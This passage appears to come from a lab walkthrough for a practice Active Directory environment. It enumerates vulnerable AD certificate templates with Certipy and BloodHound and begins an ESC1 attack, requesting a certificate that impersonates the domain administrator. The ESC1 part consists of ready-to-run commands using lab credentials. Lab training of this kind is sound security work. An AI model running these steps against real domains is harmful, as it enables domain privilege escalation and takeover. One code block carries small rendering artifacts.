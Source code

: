 - Certipy 4.0 reintroduce also the `-vulnerable` option to show the vulnerable templates.
```
certipy-ad find -u khal.drogo@essos.local -p 'horse' -vulnerable -dc-ip 192.168.56.12 -stdout
```


- We can find an ESC1 vulnerable template :
    - Enrollment rights to all domain users
    - Client authentication
    - And Enrollee supplies subject

- There is also an ESC2 vulnerable template:

> [!NOTE]
> Certificates are now part of bloodhound, this the setup is not needed anymore

And others vulnerable templates, let’s take a look in bloodhound.

```
cd /opt/tools<br>wget https://github.com/ly4k/BloodHound/releases/download/v4.2.0-ly4k/BloodHound-linux-x64.zip
unzip BloodHound-linux-x64.zip -d BloodHound4.2-ly4k
rm BloodHound-linux-x64.zip
neo4j start
/opt/tools/BloodHound4.2-ly4k/BloodHound-linux-x64/BloodHound  --no-sandbox --disable-dev-shm-usage|`
```


- Import the zip file created with certipy.
- And take an overview with : PKI->Find certificate authority, select the certificate authority and click : “see enabled templates”

> if you don’t have esc4 setup on the lab, please update and run the following commands:
> 
> - `ansible-playbook acl.yml`
> - `ansible-playbook adcs.yml`
> - and next rerun bloodhound and certipy :)

Now you should be ok with acl and adcs ESC4 settings :)

## ADCS - exploitation

## ADCS - ESC1

- enumerate
```
certipy find -u khal.drogo@essos.local -p 'horse' -dc-ip 192.168.56.12
```

- query the certificate
    - target : the ca server
    - tempalte : the vulnerable template
    - upn : the target user we want to impersonate

```
certipy-ad req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC1 -ca ESSOS-CA -upn administrator@essos.local
```

